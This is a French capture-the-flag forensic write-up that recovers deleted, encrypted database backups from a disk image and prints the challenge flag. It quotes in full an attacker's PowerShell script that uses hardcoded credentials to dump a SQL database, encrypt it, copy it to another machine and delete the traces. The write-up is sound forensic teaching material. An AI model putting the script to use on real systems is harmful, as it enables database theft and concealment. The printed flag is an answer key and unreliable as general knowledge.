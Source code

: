 # iDisk

![](https://i.imgur.com/x5K1k3R.png)

Dans ce challenge on nous file un fichier compressé contenant une image disque.

On va donc analyser l'image disque, pour cela on va extraire les dossiers qu'il contient avec testdisk.

```
$ testdisk forensic.dd
```

Maintenant relisons l'énnoncé, l'intrusion ce passe dans l'entreprise `ECORP`.

On va donc chercher dans le répertoire contenant tout les fichiers de l'image disque `forensic.dd`, un fichier contenant le nom `ECORP` :

```

$ grep -r ECORP .
Fichier binaire ./pagefile.sys correspondant
Fichier binaire ./Windows/WinSxS/amd64_microsoft-windows-a..ence-mitigations-c1_31bf3856ad364e35_10.0.17763.316_none_810c351a77dd1c84/sysmain.sdb correspondant
Fichier binaire ./Windows/WinSxS/amd64_microsoft-windows-a..ence-mitigations-c1_31bf3856ad364e35_10.0.17763.475_none_80ca572e780ea7fa/sysmain.sdb correspondant
./Windows/System32/backup.ps1:$password = ConvertTo-SecureString "ECORP2021" -AsPlainText -Force


[...]
```

On a plusieurs fichiers contenant le nom ``ECORP``, dont un : `./Windows/System32/backup.ps1`, qui semble interessant.

On va par conséquence lire le contenu de celui-ci :

```
$ cat ./Windows/System32/backup.ps1
# Connect to the remote server 
$password = ConvertTo-SecureString "ECORP2021" -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential ("root", $password)

$s = New-PSSession -ComputerName DESKTOP-GD806IG -Credential $Cred


# Backup the confidential database muahahaha
Invoke-Command -Session $s -ScriptBlock { Backup-SqlDatabase -ServerInstance "DESKTOP-GD806IG" -Database "pre_prod" -BackupFile "C:\Users\root\Documents\db_backup.bak" }

# Encrypt the dump
Invoke-Command -Session $s -ScriptBlock { cd "C:\Program Files\OpenSSL-Win64\bin"; .\openssl.exe aes-256-cbc -in C:\Users\root\Documents\db_backup.bak -out C:\Users\root\Documents\db_backup.bak.enc -iv 48bb06a87601bcf63228f2e06dfe72b6 -K b017d674c1cea5f5c7409573b5bff6d3677e6e8bc06c095d01b0a75dc0ad5756 }

# Create a compressed archive of the backup
Invoke-Command -Session $s -ScriptBlock { C:\Users\root\Downloads\7z1900-extra\7za.exe a -v1m "C:\Users\root\Documents\db_backup.zip" "C:\Users\root\Documents\db_backup.bak.enc"}

# Download the archive
Invoke-Command -Session $s -ScriptBlock {$myPassword = ConvertTo-SecureString "Test1234" -AsPlainText -Force; $myCreds = New-Object System.Management.Automation.PSCredential ("DESKTOP-RD0QA0B\Skiddy", $myPassword); $mySession = New-PSSession -ComputerName "DESKTOP-RD0QA0B" -Credential $myCreds; Copy-Item -Path C:\Users\root\Documents\db_backup.zip* -Destination 'C:\Users\Skiddy\Music\Jazz' -ToSession $mySession }

# Copy the files to an external drive
cp C:\Users\Skiddy\Music\Jazz\db_backup.zip* E:\Backups

# Cleanup 
rm C:\Users\Skiddy\Music\Jazz\*

```

On peut voir grâce à ce script powershell, qu'un backup de la DB ``pre_prod`` à certainement était réalisé. Il se nommerait `db_backup`  et a été chiffré via openssl en AES 256 CBC, ayant pour IV : `48bb06a87601bcf63228f2e06dfe72b6` et pour Clé : `b017d674c1cea5f5c7409573b5bff6d3677e6e8bc06c095d01b0a75dc0ad5756`.

Malheureusement après avoir utiliser la commande ``find -name db_backup*`` à la racine du disque windows, aucun fichier de ce nom n'a était trouvé, tout simplement car celui-ci a été supprimé.

On va donc utiliser Autopsy pour tenter de retrouver le fichier supprimé :

![](https://i.imgur.com/C2SBzek.png)

On se rend compte que plusieurs fichiers ce nomme `db_backup.zip` avec un chiffre différent lui étant associé.

Le fichier backup principale à donc certainement était splité en 4 parties.

On va donc récupérer les 4 fichiers `db_backup.zip`.

Une fois cela fait il suffit de copier le contenu des 4 fichiers dans l'ordre croissant dans un seul fichier et unzip le fichier  : 

```
$ cat db_backup.zip.00* > db.zip

$ file db.zip
db: Zip archive data, at least v1.0 to extract

$ unzip db.zip 
Archive:  db.zip
 extracting: db_backup.bak.enc       

```

Une fois cela fait on voit que `db_backup` est chiffré, il sufft de le déchiffrer avec openssl et le faire avec le chiffrement : `AES 256 CBC` , l'IV : `48bb06a87601bcf63228f2e06dfe72b6` et la clé  : `b017d674c1cea5f5c7409573b5bff6d3677e6e8bc06c095d01b0a75dc0ad5756` puis chercher `DGA{` avec `grep`:

```
$ openssl aes-256-cbc -d -in db_backup.bak.enc -out db_backup.bak -iv 48bb06a87601bcf63228f2e06dfe72b6 -K b017d674c1cea5f5c7409573b5bff6d3677e6e8bc06c095d01b0a75dc0ad5756
$ strings db_backup.bak|grep DGA{
DGA{95ecd8f47dc647599e9d1f7a90974a997338cd48}}
```

Bingo, on veut flag de challenge avec le flag : `DGA{95ecd8f47dc647599e9d1f7a90974a997338cd48}` !!


